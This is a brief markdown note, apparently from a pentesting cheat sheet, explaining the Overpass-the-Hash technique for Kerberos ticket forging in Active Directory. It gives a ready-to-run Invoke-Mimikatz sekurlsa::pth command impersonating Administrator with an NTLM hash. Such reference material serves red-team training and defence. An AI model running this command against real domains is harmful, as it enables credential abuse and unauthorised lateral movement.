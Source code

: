 # Overpass the Hash

## General

- Similar to pass-the-hash
- Creates valid kerberos ticket from NTLM hash of user
- Able to access any domain service and not just services that support NTLM authentication like in PTH attacks

## Exploitation with Invoke-Mimikatz

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:lab.local /ntlm:<HASH> /run:powershell.exe"'
```
